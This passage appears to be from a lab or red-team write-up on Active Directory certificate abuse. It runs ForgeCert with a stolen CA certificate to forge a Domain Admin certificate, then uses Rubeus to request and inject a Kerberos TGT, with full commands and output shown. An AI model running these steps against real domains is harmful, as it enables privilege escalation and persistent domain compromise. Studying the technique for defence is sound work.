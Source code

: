 Keep this **.pfx** with ALL YOUR SOUL!!!! Now, let's use **ForgeCert** to issue a certificate on behalf of the Domain Admin.

```powershell
 .\ForgeCert.exe --CaCertPath ".\CORP-CA.p12" --CaCertPassword "Senha" --Subject "CN=paulo.victor,OU=Usuarios,OU=Inferi,DC=CORP,DC=LOCAL" --SubjectAltName paulo.victor@corp.local --NewCertPath ".\paulo-da.pfx" --NewCertPassword "Senha"

CA Certificate Information:
  Subject:        CN=CORP-CA, DC=CORP, DC=LOCAL
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/4/2025 12:56:14 AM
  End Date:       1/4/2030 1:06:13 AM
  Thumbprint:     0C6145AAC4A1BDF07BA3F7D01461797BF511F12C
  Serial:         1125934CE5144B9A4DEFB96CAAA4A9F2

Forged Certificate Information:
  Subject:        DC=LOCAL, DC=CORP, OU=Inferi, OU=Usuarios, CN=paulo.victor
  SubjectAltName: paulo.victor@corp.local
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/11/2025 2:34:50 AM
  End Date:       1/11/2026 2:34:50 AM
  Thumbprint:     ED557F9E9F3811F07B62EF0517CE494D83E9AD4B
  Serial:         00E32CD49040A22DBBA2BA81A1A6C87F4E

Done. Saved forged certificate to .\paulo-da.pfx with the password 'Senha'
```

Now, let's use **Rubeus** to request a TGT and impersonate the Domain Admin.

```powershell
.\Rubeus.exe asktgt /user:paulo.victor /domain:corp.local /dc:corp-dc.corp.local /certificate:"C:\Tools\paulo-da.pfx" /password:"Senha" /ptt

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: DC=LOCAL, DC=CORP, OU=Tier0, OU=Usuarios, CN=paulo.victor
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
[*] Using domain controller: 10.0.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlhg...

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  paulo.victor
  UserRealm                :  CORP.LOCAL
  StartTime                :  1/11/2025 2:37:29 AM
  EndTime                  :  1/11/2025 12:37:29 PM
  RenewTill                :  1/18/2025 2:37:29 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  c5brmZK4ioq20251NDOs8w==
  ASREP (key)              :  667FB15683B166E0330E8D3DFE38620E
```
